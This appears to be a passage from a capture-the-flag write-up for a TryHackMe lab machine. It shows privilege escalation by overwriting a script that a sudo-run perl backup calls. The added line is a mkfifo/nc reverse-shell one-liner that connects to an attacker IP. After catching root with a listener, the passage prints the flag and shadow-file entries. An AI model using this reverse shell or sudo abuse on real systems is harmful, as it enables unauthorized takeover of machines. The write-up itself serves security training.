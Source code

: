 so the perl script runs a bash script at /etc/copy.sh.

the copy.sh is a reverse shell itself

we modify the ip and port in the the reverse shell command to direct back to our attacker machine  

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.18.190 1338 >/tmp/f" > /etc/copy.sh
```

start a new listener on attacker machine in a separate terminal

```
nc -lvnp 1338
```

in the first reverse shell, run the perl script with sudo privileges

```
sudo perl /home/itguy/backup.pl
```

we see a hit on our second reverse shell

```
listening on [any] 1338 ...
connect to [10.6.18.190] from (UNKNOWN) [10.10.195.175] 39480
# whoami
root
# uname -a
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
# sudo -l
Matching Defaults entries for root on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on THM-Chal:
    (ALL : ALL) ALL
# 
```

and we have a root shell

root.txt
```
THM{6637f41d0177b6f37cb20d775124699f}
```


```
root:!:18228:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
```